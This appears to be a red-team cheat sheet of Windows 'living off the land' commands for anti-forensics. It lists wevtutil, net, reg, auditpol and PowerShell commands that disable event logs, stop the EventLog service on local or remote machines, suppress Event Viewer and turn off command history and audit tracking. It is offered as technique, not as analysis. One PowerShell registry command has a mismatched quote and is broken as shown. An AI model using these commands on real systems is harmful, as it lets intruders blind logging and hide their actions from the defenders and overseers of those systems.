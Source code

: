 # Living off the Land

## Command Prompt

Disable specific logs.

```
C:\> wevtutil.exe sl Application /e:false

wevtutil.exe sl Security /e:false

wevtutil.exe sl System /e:false
```

Disable the event log service.

```
C:\> net.exe stop EventLog
```

Suspend **Event Viewer** from generating logs

```
C:\> reg.exe add "[\\<IP>\]HKLM\System\CurrentControlSet\Control\MiniNt" /f
```

Disable detailed tracking.

```
C:\> auditpol.exe /get /category:"Detailed Tracking"

C:\> auditpol.exe /set /category:"Detailed Tracking" /success:disable /failure:disable
```

## PowerShell

Disable history commands.

```
PS C:\> Set-PSReadLineOption -HistorySaveStyle SaveNothing
```

Disable the event log service.

```
PS C:\> Stop-Service -Force -Name "EventLog"

PS C:\> Get-Service [-ComputerName <IP>] -Name "EventLog" | Stop-Service -Force

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock { Stop-Service -Force -Name "EventLog" }
```

Suspend Event Viewer from generating logs

```
PS C:\> New-Item -Path Registry::HKLM:\System\CurrentControlSet\Control\MiniNt" -Force
```

---
## References

### LOFLCAB

- [LOFLCAB: reg](https://lofl-project.github.io/loflcab/Binaries/reg/)

### r00t 3xp10it

- [r00t-3xp10it: CmdLine Scripts for Reverse TCP Shell Addicts](https://github.com/r00t-3xp10it/venom/wiki/CmdLine-%26-Scripts-for-reverse-TCP-shell-addicts)

### DMCXBlue

- [DMCXBlue: Impair Command History Logging](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/defense-evasion/t1562-impair-defenses/impair-command-history-logging)

### InfoSec Matter

- [InfoSec Matter: Powershell Commands for Pentesters](https://www.infosecmatter.com/powershell-commands-for-pentesters/)